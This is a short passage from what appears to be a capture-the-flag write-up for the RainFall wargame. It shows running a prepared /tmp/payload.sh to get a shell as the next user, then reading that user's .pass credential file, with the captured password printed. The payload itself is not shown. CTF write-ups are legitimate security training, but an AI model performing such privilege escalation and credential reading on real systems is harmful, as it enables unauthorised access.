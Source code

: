 Execute the payload.sh file to enter a shell as bonus0:

```sh
level9@RainFall:~$ /tmp/payload.sh
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
